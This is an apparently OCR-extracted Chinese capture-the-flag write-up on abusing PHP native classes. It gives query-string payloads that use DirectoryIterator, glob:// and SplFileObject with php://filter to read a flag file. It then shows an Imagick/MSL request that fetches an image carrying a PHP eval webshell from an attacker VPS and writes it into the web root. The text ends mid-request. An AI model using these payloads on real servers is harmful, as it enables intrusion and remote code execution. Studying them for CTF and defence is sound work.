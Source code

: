 针对这样的代码，读flag的操作步骤如下： ⾸先⽤能遍历⽬录的原⽣类，⽐如DirectoryIterator结合glob读⽂件名

```
?a=DirectoryIterator&b=glob://f*
```

由于DirectoryIterator返回结果是⼀个迭代器，所以通常直接⽤echo打印出来的是第⼀ 项，所以需要结合glob协议通配符的特性去⼀点点把flag⽂件名匹配出来

然后⽤SplFileObject去读⽂件

```
?a=SplFileObject&b=flag.php
```

因为SplFileObject只能读取一行内容,所以需要使⽤伪协议将其读出来

```
?a=SplFileObject&b=php://filter/convert.base64-encode/resource=flag.php
```

最后来看最难的这个点

## new $a($b)

这里没有了echo,本来就不能RCE了,现在去掉echo后又不能文件读取了

先来看代码

```
<?php
error_reporting(0);
show_source(__FILE__);
new $_GET['b']($_GET['c']);
?>
```

考察的是原⽣类，不过和以往常⻅的原⽣类题⽬不⼀样，不存在echo，经过测试之后存在

```
?b=Imagick&c=http://VPS
```

在VPS中⽣成⼀个图⽚，含有⼀句话⽊⻢

```
convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' positiv
e.png
```

在VPS中监听12345端⼝，再往服务器发送请求包如下：

```
POST /?b=Imagick&c=vid:msl:/tmp/php* HTTP/1.1
Host: 1.1.1.1:32127
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/53
7.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,i
mage/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeTvfNEmq
Tayg6bqr
Content-Length: 348
------WebKitFormBoundaryeTvfNEmqTayg6bqr
Content-Disposition: form-data; name="123"; filename="exec.msl"
Content-Type: text/plain
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://vps:12345/positive.png" />
<write filename="/var/www/html/positive.php"/>
```